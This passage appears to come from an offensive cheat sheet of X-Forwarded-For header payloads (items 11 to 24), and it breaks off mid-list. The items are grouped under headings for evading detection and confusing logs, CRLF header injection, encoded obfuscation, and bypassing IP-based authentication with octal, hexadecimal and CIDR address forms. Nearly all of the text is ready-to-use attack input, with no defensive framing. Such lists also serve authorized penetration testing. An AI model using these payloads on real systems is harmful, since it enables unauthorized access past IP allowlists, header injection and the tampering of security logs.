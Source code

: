 
### **Evading Detection / Load Balancer Tricks**
11. **Long List of Fake Proxies**  
    ```
    X-Forwarded-For: 192.168.1.1, 192.168.1.2, 192.168.1.3, 192.168.1.4, 8.8.8.8
    ```
12. **Adding Non-IP Data for Log Confusion**  
    ```
    X-Forwarded-For: unknown
    ```
13. **Appending Extra Data for Splitting Issues**  
    ```
    X-Forwarded-For: 192.168.1.1, something-else
    ```
14. **Using Malformed IP Address**  
    ```
    X-Forwarded-For: 999.999.999.999
    ```
15. **Using `0.0.0.0` to Confuse Systems**  
    ```
    X-Forwarded-For: 0.0.0.0
    ```

---

### **Cross-Site Request Forgery (CSRF) / Exploits**
16. **Injecting New Headers via Newline Characters (CRLF Injection)**  
    ```
    X-Forwarded-For: 192.168.1.1%0D%0AX-Forwarded-For: 8.8.8.8
    ```
17. **Splitting Headers via HTTP/1.1 Header Injection**  
    ```
    X-Forwarded-For: 192.168.1.1\r\nInjected-Header: value
    ```
18. **Using Encoded Characters (Obfuscation)**  
    ```
    X-Forwarded-For: %31%39%32%2E%31%36%38%2E%31%2E%31
    ```
19. **Trying to Break the Header Parsing Logic**  
    ```
    X-Forwarded-For: 192.168.1.1,
    ```
20. **Using Double Comma Trick to Confuse Parsing**  
    ```
    X-Forwarded-For: 192.168.1.1,,8.8.8.8
    ```

---

### **Bypassing IP-Based Authentication**
21. **IP Address in CIDR Format**  
    ```
    X-Forwarded-For: 192.168.1.1/32
    ```
22. **Using Octal Representation of IP**  
    ```
    X-Forwarded-For: 0300.0250.0001.0001
    ```
23. **Using Hexadecimal Format**  
    ```
    X-Forwarded-For: 0xC0A80101
    ```
24. **Using Mixed Numeric Representations**  